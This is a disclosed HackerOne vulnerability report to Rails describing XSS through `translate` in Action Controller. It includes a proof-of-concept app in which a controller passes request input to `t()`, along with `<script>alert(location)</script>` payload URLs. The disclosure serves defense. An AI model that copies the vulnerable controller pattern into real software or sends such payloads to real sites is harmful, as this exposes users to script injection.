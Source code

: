 # XSS when using `translate` in Action Controller (Rails 7.0, 7.1)

## Report Details
- **Report ID**: 2303609
- **URL**: https://hackerone.com/reports/2303609
- **State**: Closed
- **Severity**: low
- **Submitted**: 2024-01-04T06:51:32.250Z
- **Disclosed**: 2024-10-01T13:27:12.830Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
I have confirmed two ways that XSS can occur when using `translate` in Action Controller. ( https://github.com/rails/rails/blob/v7.1.2/actionpack/lib/abstract_controller/translation.rb#L15 )
This does not occur in Action View because the implementation of `tanslate` is different. ( https://github.com/rails/rails/blob/v7.1.2/actionview/lib/action_view/helpers/translation_helper.rb#L73 )


One is when the key value contains `_html` and also contains the tag value. 
XSS is possible because the error message returned by `I18n` contains the value of key and is marked as `html_safe`.
https://github.com/rails/rails/blob/v7.1.2/activesupport/lib/active_support/html_safe_translation.rb#L35

The other case is when the key value contains `_html` and the value passed as `default` is not escaped. This was fixed in Action View as [CVE-2020-15169](https://github.com/advisories/GHSA-cfjv-5498-mph5), but it is not modified on the Action Controller side.


## PoC

```
❯ ruby -v
ruby 3.2.2 (2023-03-30 revision e51014f9c0) [arm64-darwin22]

❯ rails new rails_server -G -M -O -C -A -J -T 
# Rails 7.1.2

❯ cd rails_server
```

`config/routes.rb`

```ruby
Rails.application.routes.draw do
   get "/articles/missing_key", to: "articles#missing_key"
   get "/articles/default", to: "articles#default"
end
```

`app/controllers/articles_controller.rb`

```ruby
class ArticlesController < ApplicationController

  def missing_key  
    @message = t(params[:text])
    render :show
  end

  def default  
    @message = t("message_html", default: "<script>alert(location)</script>")
    render :show
  end
end
```

`app/views/articles/show.html.erb`

```html
<h1><%= @message %></h1>

<%# Confirm translate is escape in Action View %>
<p><%= t("<script>alert(location)</script>_html") %></p>
<p><%= t("message_html", default: "<script>alert(location)</script>") %></p>
```

start server

```
❯ bundle exec rails s
```

You can confirm the XSS by accessing the URL below.

- http://127.0.0.1:3000/articles/missing_key?text=%3Cscript%3Ealert(location)%3C/script%3E_html
- http://127.0.0.1:3000/articles/default

## Impact

XSS occurs if pass an untrusted value to `translate` in the controller.

I confirmed that it occurs in versions 7.1 and 7.0, but the XSS did not occur in 6.1.
I'm guessing it's an effect of this commit. https://github.com/rails/rails/commit/a5247bb90895f843c45fb095a4072e8ef30eaa4e

## Attachments
No attachments
